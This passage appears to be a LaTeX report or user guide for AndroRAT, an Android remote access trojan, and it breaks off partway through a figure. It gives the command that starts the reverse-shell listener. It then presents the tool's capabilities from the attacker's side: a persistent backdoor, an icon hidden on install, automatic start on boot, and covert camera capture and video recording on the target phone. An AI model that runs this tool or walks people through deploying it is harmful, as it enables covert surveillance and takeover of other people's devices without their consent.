  
\includegraphics[width=0.6\linewidth]{APKinstalled.png}
  \caption{Installing the APK on target device}
\end{figure}

\subsubsection{Shell Mode Flags}
For the shell mode, you can use the following flags:

\begin{itemize}
    \item \textbf{-i, --ip}: Listener IP address.
    \item \textbf{-p, --port}: Listener port number.
\end{itemize}

\textbf{Example Usage for Shell Mode}:
\begin{lstlisting}[style=shell]
python3 androRAT.py --shell -i 0.0.0.0 -p 8000
\end{lstlisting}
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.6\linewidth]{ConnectedShell.png}
  \caption{Connected to shell}
\end{figure}

\section{Features of AndroRAT}

\subsection{Full Persistent Backdoor}
AndroRAT provides a highly capable and long-lasting form of unauthorized access to the target device. Here are some key aspects of its full persistent backdoor functionality:
\begin{itemize}
    \item \textbf{Full Access:} The backdoor offers complete access to the compromised system, allowing the attacker to execute various operations such as stealing data, manipulating settings, or executing arbitrary commands.
    \item \textbf{Persistence:} AndroRAT can run in the background indefinitely until detected by highly functional anti-spyware tools or manually stopped by a user. The app's ability to hide its icon reduces the likelihood of detection.
    \item \textbf{Backdoor Entry:} A backdoor serves as a hidden or undocumented means of accessing a computer system, providing unauthorized access without normal authentication procedures.
\end{itemize}

\subsection{Invisible Icon on Install}
Upon installation, AndroRAT does not create any visible icon on the target Android phone. However, it's worth noting that icon invisibility only works on Android versions lower than 9. Additional properties include a lightweight APK that runs continuously in the background, and the app automatically starts on boot-up.
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.6\linewidth]{noicon.png}
  \caption{No visible icon on the device}
\end{figure}

\subsection{Audio, Video, and Camera Control}
AndroRAT offers extensive control over audio, video, and camera functionalities of the target device:
\begin{itemize}
    \item \textbf{Camera Control:} Users can access both the front and back cameras of the target device.
    \begin{figure}[h!]
      \centering
      
\includegraphics[width=0.6\linewidth]{CAMlist.png}
      \caption{List of available cameras}
    \end{figure}
    \item \textbf{Capturing Images:} AndroRAT can capture images discreetly and save them locally.
    \begin{figure}[h!]
      \centering
      
\includegraphics[width=0.6\linewidth]{PicTaken.png}
      \caption{Image captured by AndroRAT}
    \end{figure}
    \item \textbf{Video Controls:} Users can initiate and stop video recording, with the recorded videos saved locally.
    \begin{figure}[h!]
      \centering
